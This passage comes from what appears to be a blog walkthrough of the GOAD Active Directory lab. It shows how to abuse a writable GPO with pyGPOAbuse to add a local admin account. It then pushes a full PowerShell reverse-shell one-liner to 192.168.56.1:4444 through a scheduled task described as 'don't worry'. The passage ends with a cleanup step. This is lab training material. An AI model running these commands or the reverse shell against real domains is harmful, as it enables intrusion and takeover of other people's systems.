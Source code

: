 - There is a GPO abuse on the north domain

![acl_gpo_abuse.png](/assets/blog/GOAD/acl_gpo_abuse.png)

- To abuse GPO we will use the project created by Hackndo : [pyGPOAbuse](https://github.com/Hackndo/pyGPOAbuse)
- The github readme file say : _"It will create an immediate scheduled task as SYSTEM on the remote computer for computer GPO, or as logged in user for user GPO."_

```bash
git clone https://github.com/Hackndo/pyGPOAbuse.git
python3 -m virtualenv .venv
source .venv/bin/activate
python3 -m pip install -r requirements.txt
```

- We get the id from bloodhound and launch the exploit with :

```bash
python3 pygpoabuse.py north.sevenkingdoms.local/samwell.tarly:'Heartsbane' -gpo-id "6F8BD644-2C29-418C-93F1-FE926F91F6B4"
```

![acl_gpo_abuse_schedule_task.png](/assets/blog/GOAD/acl_gpo_abuse_schedule_task.png)

- If we take a look in the windows GUI we will see the schedule task created :

![acl_gpo_abuse_schedule_task_result.png](/assets/blog/GOAD/acl_gpo_abuse_schedule_task_result.png)

- If we wait few minutes or if we run a `gpudate /force` we will see the new local admin user

![acl_gpo_abuse_schedule_task_adduser.png](/assets/blog/GOAD/acl_gpo_abuse_schedule_task_adduser.png)


- Now let's try to get a powershell reverseshell

```bash
python3 pygpoabuse.py north.sevenkingdoms.local/samwell.tarly:'Heartsbane' -gpo-id "6F8BD644-2C29-418C-93F1-FE926F91F6B4" -powershell -command "\$c = New-Object System.Net.Sockets.TCPClient('192.168.56.1',4444);\$s = \$c.GetStream();[byte[]]\$b = 0..65535|%{0};while((\$i = \$s.Read(\$b, 0, \$b.Length)) -ne 0){    \$d = (New-Object -TypeName System.Text.ASCIIEncoding).GetString(\$b,0, \$i);    \$sb = (iex \$d 2>&1 | Out-String );    \$sb = ([text.encoding]::ASCII).GetBytes(\$sb + 'ps> ');    \$s.Write(\$sb,0,\$sb.Length);    \$s.Flush()};\$c.Close()" -taskname "MyTask" -description "don't worry"
```

- And a few moments later we get the powershell reverseshell

![acl_gpo_abuse_rev_shell.png](/assets/blog/GOAD/acl_gpo_abuse_rev_shell.png)

> pyGPOAbuse is changing the GPO without going back !
> Do not use in production or at your own risk and do not forget to cleanup after
{: .prompt-warning }

- Cleanup 

![acl_gpo_cleanup.png](/assets/blog/GOAD/acl_gpo_cleanup.png)
